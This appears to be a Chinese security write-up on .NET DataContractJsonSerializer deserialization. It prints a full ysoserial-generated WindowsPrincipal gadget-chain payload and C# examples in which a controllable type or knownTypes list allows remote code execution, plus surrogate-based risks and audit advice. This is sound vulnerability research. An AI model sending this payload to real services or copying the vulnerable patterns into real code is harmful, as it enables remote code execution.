





# DataContractJsonSerializer

在dotnet中对于对象转json的处理有几大库，DataContractJsonSerializer、Json.net、JavaScriptSerializer。其中DataContractJsonSerializer、JavaScriptSerializer是dotnet自带的标准库，本文讲解DataContractJsonSerializer的使用。

DataContractJsonSerializer命名空间位于[System.Runtime.Serialization.Json](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.json?view=net-5.0)，程序集位于System.Runtime.Serialization.Json.dll




该类同样继承自XmlObjectSerializer抽象类，有多个构造方法和序列化、反序列化方法。其中构造方法中都需要传入type参数来控制序列化类型。

# demo

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;

namespace DataContractJsonDeserializer
{
    [DataContract]
    class Person
    {
        [DataMember]
        internal string name;

        [DataMember]
        internal int age;
    }
    class Program
    {
        static void Main(string[] args)
        {
            var p = new Person();
            p.name = "John";
            p.age = 42;
            var memoryStream = new MemoryStream();
            var ser = new DataContractJsonSerializer(typeof(Person));
            ser.WriteObject(memoryStream, p);
            memoryStream.Position = 0;
            var sr = new StreamReader(memoryStream);
            Console.WriteLine(sr.ReadToEnd());
            memoryStream.Position = 0;
            Person p1 = (Person)ser.ReadObject(memoryStream);
            Console.WriteLine(p1.name);
            Console.ReadKey();
        }
    }
}
```

Person需要标记DataContract特性，序列化成员需要标记DataMember特性。通过WriteObject和ReadObject进行序列化和反序列化，demo和DataContractSerializer大致相同。注意构造函数传入了Person的type类型。如果实际环境type参数可控，那么可以造成RCE。

# WindowsPrincipal攻击链

yso生成的攻击链如下

```json
{"__type":"WindowsPrincipal:#System.Security.Principal","m_identity":{"System.Security.ClaimsIdentity.actor":"AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQYAAAAmU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LnZlcnNpb24sU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5Lm5hbWVDbGFpbVR5cGUsU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LnJvbGVDbGFpbVR5cGUkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yJVN5c3RlbS5TZWN1cml0eS5DbGFpbXNJZGVudGl0eS5jbGFpbXMLbV91c2VyVG9rZW4BAQEBAQMNU3lzdGVtLkludFB0cgYCAAAAAzEuMAYDAAAAOmh0dHA6Ly9zY2hlbWFzLnhtbHNvYXAub3JnL3dzLzIwMDUvMDUvaWRlbnRpdHkvY2xhaW1zL25hbWUGBAAAAEBodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dzLzIwMDgvMDYvaWRlbnRpdHkvY2xhaW1zL2dyb3Vwc2lkBgUAAACUEkFBRUFBQUQvLy8vL0FRQUFBQUFBQUFBTUFnQUFBRjVOYVdOeWIzTnZablF1VUc5M1pYSlRhR1ZzYkM1RlpHbDBiM0lzSUZabGNuTnBiMjQ5TXk0d0xqQXVNQ3dnUTNWc2RIVnlaVDF1WlhWMGNtRnNMQ0JRZFdKc2FXTkxaWGxVYjJ0bGJqMHpNV0ptTXpnMU5tRmtNelkwWlRNMUJBRUFBQUFsVTNsemRHVnRMbE5sWTNWeWFYUjVMa05zWVdsdGN5NURiR0ZwYlhOSlpHVnVkR2wwZVFnQUFBQUpiVjkyWlhKemFXOXVCMjFmWVdOMGIzSVViVjloZFhSb1pXNTBhV05oZEdsdmJsUjVjR1VTYlY5aWIyOTBjM1J5WVhCRGIyNTBaWGgwQjIxZmJHRmlaV3dVYlY5elpYSnBZV3hwZW1Wa1RtRnRaVlI1Y0dVVWJWOXpaWEpwWVd4cGVtVmtVbTlzWlZSNWNHVVNiVjl6WlhKcFlXeHBlbVZrUTJ4aGFXMXpBUU1CQkFFQkFRRWxVM2x6ZEdWdExsTmxZM1Z5YVhSNUxrTnNZV2x0Y3k1RGJHRnBiWE5KWkdWdWRHbDBlVUpOYVdOeWIzTnZablF1Vm1semRXRnNVM1IxWkdsdkxsUmxlSFF1Um05eWJXRjBkR2x1Wnk1VVpYaDBSbTl5YldGMGRHbHVaMUoxYmxCeWIzQmxjblJwWlhNQ0FBQUFCZ01BQUFBRE1TNHdDZ29KQkFBQUFBb0dCUUFBQURwb2RIUndPaTh2YzJOb1pXMWhjeTU0Yld4emIyRndMbTl5Wnk5M2N5OHlNREExTHpBMUwybGtaVzUwYVhSNUwyTnNZV2x0Y3k5dVlXMWxCZ1lBQUFBOGFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNjeTh5TURBNEx6QTJMMmxrWlc1MGFYUjVMMk5zWVdsdGN5OXliMnhsQmdjQUFBQ0FBMEZCUlVGQlFVUXZMeTh2TDBGUlFVRkJRVUZCUVVGQlJVRlJRVUZCU1RSQ1ZUTnNlbVJIVm5STWEwNTJZa2Q0YkZrelVuQmlNalY2VEd0a2JHSnRWbmxoVjAxMVZFZHNlbVJIUVhoWE1YUlVaVmhPTUZwWE1IVlZNbFpxWkZoS2NHUklhM1ZSTW5ob1lWY3hla3hyVG5OWlYyeDBURU5DZEdNeVRuWmpiWGh3V1dsM1oxWnRWbmxqTW14Mlltb3dNRXhxUVhWTlF6UjNURU5DUkdSWGVEQmtXRXBzVUZjMWJHUllVbmxaVjNkelNVWkNNVmx0ZUhCWk1IUnNaVlpTZG1FeVZuVlFWMGt6VGpKRk1WbDZWVEpOVkd0NlRrZFZkMDlFYkdSWVVVMUJRVUZCUjFneWJEQmFWekY2UWxZNWVtRlljR3hEUmpreVdsaEtlbUZYT1hWQmQwRkJTR3hPTldNelVteGlVelZVV2xkT01XTnRiREJsVXpWRVlrZEdjR0pZVFhWUk1uaG9ZVmN4WWxoUlowbERVVWxCUVVGQlFVRkJRVUZCUVVGQlFVRmpRMEZCUVVGQlFVVkJRVUZCUVVGQlFVRkJlSGhVWlZoT01GcFhNSFZWTWxacVpGaEtjR1JJYTNWUk1uaG9ZVmN4ZWt4clRuTlpWMngwUTNjOVBRVUVBQUFBUWsxcFkzSnZjMjltZEM1V2FYTjFZV3hUZEhWa2FXOHVWR1Y0ZEM1R2IzSnRZWFIwYVc1bkxsUmxlSFJHYjNKdFlYUjBhVzVuVW5WdVVISnZjR1Z5ZEdsbGN3RUFBQUFQUm05eVpXZHliM1Z1WkVKeWRYTm9BUUlBQUFBR0NBQUFBTE1GUEQ5NGJXd2dkbVZ5YzJsdmJqMGlNUzR3SWlCbGJtTnZaR2x1WnowaWRYUm1MVEUySWo4K0RRbzhUMkpxWldOMFJHRjBZVkJ5YjNacFpHVnlJRTFsZEdodlpFNWhiV1U5SWxOMFlYSjBJaUJKYzBsdWFYUnBZV3hNYjJGa1JXNWhZbXhsWkQwaVJtRnNjMlVpSUhodGJHNXpQU0pvZEhSd09pOHZjMk5vWlcxaGN5NXRhV055YjNOdlpuUXVZMjl0TDNkcGJtWjRMekl3TURZdmVHRnRiQzl3Y21WelpXNTBZWFJwYjI0aUlIaHRiRzV6T25Oa1BTSmpiSEl0Ym1GdFpYTndZV05sT2xONWMzUmxiUzVFYVdGbmJtOXpkR2xqY3p0aGMzTmxiV0pzZVQxVGVYTjBaVzBpSUhodGJHNXpPbmc5SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzSWo0TkNpQWdQRTlpYW1WamRFUmhkR0ZRY205MmFXUmxjaTVQWW1wbFkzUkpibk4wWVc1alpUNE5DaUFnSUNBOGMyUTZVSEp2WTJWemN6NE5DaUFnSUNBZ0lEeHpaRHBRY205alpYTnpMbE4wWVhKMFNXNW1iejROQ2lBZ0lDQWdJQ0FnUEhOa09sQnliMk5sYzNOVGRHRnlkRWx1Wm04Z1FYSm5kVzFsYm5SelBTSXZZeUJqWVd4aklpQlRkR0Z1WkdGeVpFVnljbTl5Ulc1amIyUnBibWM5SW50NE9rNTFiR3g5SWlCVGRHRnVaR0Z5WkU5MWRIQjFkRVZ1WTI5a2FXNW5QU0o3ZURwT2RXeHNmU0lnVlhObGNrNWhiV1U5SWlJZ1VHRnpjM2R2Y21ROUludDRPazUxYkd4OUlpQkViMjFoYVc0OUlpSWdURzloWkZWelpYSlFjbTltYVd4bFBTSkdZV3h6WlNJZ1JtbHNaVTVoYldVOUltTnRaQ0lnTHo0TkNpQWdJQ0FnSUR3dmMyUTZVSEp2WTJWemN5NVRkR0Z5ZEVsdVptOCtEUW9nSUNBZ1BDOXpaRHBRY205alpYTnpQZzBLSUNBOEwwOWlhbVZqZEVSaGRHRlFjbTkyYVdSbGNpNVBZbXBsWTNSSmJuTjBZVzVqWlQ0TkNqd3ZUMkpxWldOMFJHRjBZVkJ5YjNacFpHVnlQZ3M9BgYAAACAA0FBRUFBQUQvLy8vL0FRQUFBQUFBQUFBRUFRQUFBSTRCVTNsemRHVnRMa052Ykd4bFkzUnBiMjV6TGtkbGJtVnlhV011VEdsemRHQXhXMXRUZVhOMFpXMHVVMlZqZFhKcGRIa3VRMnhoYVcxekxrTnNZV2x0TENCdGMyTnZjbXhwWWl3Z1ZtVnljMmx2YmowMExqQXVNQzR3TENCRGRXeDBkWEpsUFc1bGRYUnlZV3dzSUZCMVlteHBZMHRsZVZSdmEyVnVQV0kzTjJFMVl6VTJNVGt6TkdVd09EbGRYUU1BQUFBR1gybDBaVzF6QlY5emFYcGxDRjkyWlhKemFXOXVBd0FBSGxONWMzUmxiUzVUWldOMWNtbDBlUzVEYkdGcGJYTXVRMnhoYVcxYlhRZ0lDUUlBQUFBQUFBQUFBQUFBQUFjQ0FBQUFBQUVBQUFBQUFBQUFBeHhUZVhOMFpXMHVVMlZqZFhKcGRIa3VRMnhoYVcxekxrTnNZV2x0Q3c9PQT5////DVN5c3RlbS5JbnRQdHIBAAAABXZhbHVlAAkgAwAAAAAAAAs="}}
```

__type字段可以通过DataContractJsonSerializerSettings传入DataContractJsonSerializer的构造方法。

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;
using System.Security.Principal;
using System.Text.RegularExpressions;

namespace DataContractJsonDeserializer
{
    [DataContract]
    internal class Person
    {
        [DataMember]
        internal string name;
        [DataMember]
        internal int age;
        [DataMember]
        object o;
    }
    class Program
    {
        static void Main(string[] args)
        {
            var settings = new DataContractJsonSerializerSettings();
            settings.EmitTypeInformation = EmitTypeInformation.Always;
            var ser = new DataContractJsonSerializer(typeof(Person), settings);
            using (FileStream file = new FileStream("1.json", FileMode.OpenOrCreate))
            {
                Person person = new Person();
                person.name = "jack";
                person.age = 19;
                ser.WriteObject(file, person);
            }
            Console.ReadKey();
        }
    }
}
```

当setting的EmitTypeInformation设置为EmitTypeInformation.Always时json会包含type信息。即上文yso生成的__type字段。


使用yso的payload来进行rce，有几种方法：

1. 代码需要可控type。

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;

namespace DataContractJsonDeserializer
{
    class Program
    {
        static void Main(string[] args)
        {
            var settings = new DataContractJsonSerializerSettings();
            settings.EmitTypeInformation = EmitTypeInformation.Always;
            var ser = new DataContractJsonSerializer(Type.GetType("System.Security.Principal.WindowsPrincipal"), settings);

            using (FileStream file = new FileStream("1.json", FileMode.OpenOrCreate))
            {
                ser.ReadObject(file);
            }
            Console.ReadKey();
        }
    }
}

```

如果Type.GetType("System.Security.Principal.WindowsPrincipal")可控，可以RCE。

2. KnownType特性

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;
using System.Security.Principal;

namespace DataContractJsonDeserializer
{
    [DataContract]
    [KnownType(typeof(WindowsPrincipal))]
    internal class Person
    {
        [DataMember]
        internal string name;

        [DataMember]
        internal int age;
        [DataMember]
        object o;
    }
    class Program
    {
        static void Main(string[] args)
        {
            var ser = new DataContractJsonSerializer(typeof(Person));
            using (FileStream file = new FileStream("1.json", FileMode.OpenOrCreate))
            {
                ser.ReadObject(file);
            }
            Console.ReadKey();
        }
    }
}
```

`[KnownType(typeof(WindowsPrincipal))]`标记WindowsPrincipal为已知类型。但是这个地方太难利用了。

3. 构造函数中传入KnownType

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;
using System.Security.Principal;

namespace DataContractJsonDeserializer
{
    [DataContract]
    internal class Person
    {
        [DataMember]
        internal string name;
        [DataMember]
        internal int age;
        [DataMember]
        object o;
    }
    class Program
    {
        static void Main(string[] args)
        {
            var settings = new DataContractJsonSerializerSettings();
            settings.EmitTypeInformation = EmitTypeInformation.Always;
            var ser = new DataContractJsonSerializer(typeof(Person), new List<Type> { typeof(WindowsPrincipal) });
            using (FileStream file = new FileStream("1.json", FileMode.OpenOrCreate))
            {
                ser.ReadObject(file);
            }
            Console.ReadKey();
        }
    }
}
```

构造函数中将`new List<Type> { typeof(WindowsPrincipal)}`传入，也能RCE。


除了上文三种方法外，再引入一个新的东西IDataContractSurrogate 接口

# IDataContractSurrogate

在DataContractJsonSerializer构造函数中有如下重载

```csharp
        //
        // 摘要:
        //     初始化 System.Runtime.Serialization.Json.DataContractJsonSerializer 类的新实例，以便序列化或反序列化指定类型的对象。
        //     此方法还指定了可在对象图中呈现的已知类型的列表、要序列化或反序列化的最大图项数、是忽略意外数据还是发出类型信息以及自定义序列化的代理项。
        //
        // 参数:
        //   type:
        //     序列化或反序列化的实例的类型。
        //
        //   knownTypes:
        //     一个包含内容的根元素名称的 System.Xml.XmlDictionaryString。
        //
        //   maxItemsInObjectGraph:
        //     System.Collections.Generic.IEnumerable`1 的一个 System.Type，其中包含可在对象图中呈现的类型。
        //
        //   ignoreExtensionDataObject:
        //     若要在序列化时忽略 true 接口并在反序列化时忽略意外数据，则为 System.Runtime.Serialization.IExtensibleDataObject；否则为
        //     false。 默认值为 false。
        //
        //   dataContractSurrogate:
        //     一个用于自定义序列化过程的 System.Runtime.Serialization.IDataContractSurrogate 实现。
        //
        //   alwaysEmitTypeInformation:
        //     若要发出类型信息，则为 true；否则为 false。 默认值为 false。
        public DataContractJsonSerializer(Type type, IEnumerable<Type> knownTypes, int maxItemsInObjectGraph, bool ignoreExtensionDataObject, IDataContractSurrogate dataContractSurrogate, bool alwaysEmitTypeInformation);

```

其中提到了dataContractSurrogate参数，用于自定义序列化过程的 System.Runtime.Serialization.IDataContractSurrogate 实现。

因为DataContractJsonSerializer只有已知类型knownTypes的对象才能被序列化，而在实体类中不可避免的需要接入其他没有被标记DataContract特性的类，而没标记DataContract特性，就不在konwnTypes中，就不能被序列化。所以引入IDataContractSurrogate接口，作用是控制实体类引入了不在knownTypes中的类型实例应该如何被序列化存储。

写一个demo看看。

```csharp
using System;
using System.CodeDom;
using System.Collections.Generic;
using System.Collections.ObjectModel;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Json;
using System.Xml.Serialization;

namespace DataContractJsonDeserializer
{
    [DataContract]
    public class Person
    {
        [DataMember]
        public string Name { get; set; }
        [DataMember]
        public Dog dog;
    }
    public class Dog
    {
        public string Name { get; set; }
    }

    [DataContract]
    class DogSurrogated
    {
        [DataMember()]
        public string xmlData;
    }
    class DogSurrogate : IDataContractSurrogate
    {
        public object GetCustomDataToExport(MemberInfo memberInfo, Type dataContractType)
        {
            Console.WriteLine("GetCustomDataToExport invoked");
            return null;
        }

        public object GetCustomDataToExport(Type clrType, Type dataContractType)
        {
            Console.WriteLine("GetCustomDataToExport invoked");
            return null;
        }

        public Type GetDataContractType(Type type)
        {
            Console.WriteLine($"GetDataContractType invoked, {type}");
            if (type.IsAssignableFrom(typeof(Dog)))
            {
                return typeof(DogSurrogated);
            }
            return type;
        }

        public object GetDeserializedObject(object obj, Type targetType)
        {
            Console.WriteLine($"GetDeserializedObject invoked {obj}");
            if (obj is DogSurrogated)
            {
                DogSurrogated ps = (DogSurrogated)obj;
                XmlSerializer xs = new XmlSerializer(typeof(Dog));
                return (Dog)xs.Deserialize(new StringReader(ps.xmlData));
            }
            return obj;
        }

        public void GetKnownCustomDataTypes(Collection<Type> customDataTypes)
        {
            Console.WriteLine($"GetKnownCustomDataTypes invoked. {customDataTypes}");

        }

        public object GetObjectToSerialize(object obj, Type targetType)
        {
            Console.WriteLine($"GetObjectToSerialize invoked,{obj},{targetType.FullName}");
            if (obj is Dog)
            {
                DogSurrogated ps = new DogSurrogated();
                XmlSerializer xs = new XmlSerializer(typeof(Dog));
                StringWriter sw = new StringWriter();
                xs.Serialize(sw, (Dog)obj);
                ps.xmlData = sw.ToString();
                return ps;
            }
            return obj;
        }

        public Type GetReferencedTypeOnImport(string typeName, string typeNamespace, object customData)
        {
            Console.WriteLine("GetReferencedTypeOnImport invoked");
            Console.WriteLine("\t Type Name: {0}", typeName);

            if (typeName.Equals("DogSurrogated"))
            {
                Console.WriteLine("Returning Dog");
                return typeof(Dog);
            }
            return null;
        }

        public CodeTypeDeclaration ProcessImportedType(CodeTypeDeclaration typeDeclaration, CodeCompileUnit compileUnit)
        {
            Console.WriteLine("ProcessImportedType invoked");
            return typeDeclaration;
        }
    }
    public class Program
    {
        public static void Main(string[] vs)
        {
            Person person = new Person();
            person.Name = "jack";
            Dog dog = new Dog();
            dog.Name = "jjjj";
            person.dog = dog;
            List<Type> knownTypes = new List<Type>();
            DogSurrogate surrogate = new DogSurrogate();
            //DataContractSerializer surrogateSerializer = new DataContractSerializer(typeof(Person), knownTypes, Int16.MaxValue, false, true, surrogate);
            DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(typeof(Person), knownTypes, int.MaxValue, false, surrogate, false);
            FileStream fs = new FileStream("1.txt", FileMode.OpenOrCreate);
            dataContractJsonSerializer.WriteObject(fs, person);
            fs.Close();
            Console.WriteLine(File.ReadAllText("1.txt"));

            Person p1 = (Person)dataContractJsonSerializer.ReadObject(File.Open("1.txt", FileMode.Open));
            Console.WriteLine($"person.Name:{p1.Name}\t person.dog.Name:{p1.dog.Name}");
            Console.ReadKey();
        }
    }
}
```

输出结果

```
GetDataContractType invoked, DataContractJsonDeserializer.Person
GetObjectToSerialize invoked,DataContractJsonDeserializer.Person,DataContractJsonDeserializer.Person
GetDataContractType invoked, DataContractJsonDeserializer.Dog
GetObjectToSerialize invoked,DataContractJsonDeserializer.Dog,DataContractJsonDeserializer.DogSurrogated
{"Name":"jack","dog":{"xmlData":"<?xml version=\"1.0\" encoding=\"utf-16\"?>\u000d\u000a<Dog xmlns:xsi=\"http:\/\/www.w3.org\/2001\/XMLSchema-instance\" xmlns:xsd=\"http:\/\/www.w3.org\/2001\/XMLSchema\">\u000d\u000a  <Name>jjjj<\/Name>\u000d\u000a<\/Dog>"}}
GetDataContractType invoked, DataContractJsonDeserializer.Dog
GetDeserializedObject invoked DataContractJsonDeserializer.DogSurrogated
GetDeserializedObject invoked DataContractJsonDeserializer.Person
person.Name:jack         person.dog.Name:jjjj
```



其中Person标记了DataContract，但是其dog字段的类型Dog没有标记DataContract，所以新建了一个DogSurrogated类来表示Dog类型。

在代码中新建了DogSurrogate类实现IDataContractSurrogate接口方法，并将其传入DataContractJsonSerializer构造函数。



通过DogSurrogate代理DogSurrogated实体类进行序列化，在GetDataContractType判断实例类型



如果是Dog类就用DogSurrogated类替代，并通过xmlserializer进行序列化存储到DogSurrogated.xmlData字段。反序列化时再通过xml反序列化读取xmlData字段转回来



那么这边其实有两个安全问题。

1. GetDataContractType的时候判断type是否可控
2. GetDeserializedObject GetObjectToSerialize 序列化反序列化时如果直接用其他反序列化formatter，那么也可能RCE。比如base64的binaryformatter。

# 审计视角

如上文所述，关注构造函数的参数type、knownTypes和自定义DataContractJsonSerializerSettings、自定义IDataContractSurrogate的实现。

# 后文

本文讲解了DataContractJsonSerializer的序列化和反序列化，并针对IDataContractSurrogate进行讲解。综合来讲DataContractJsonSerializer比较难利用。

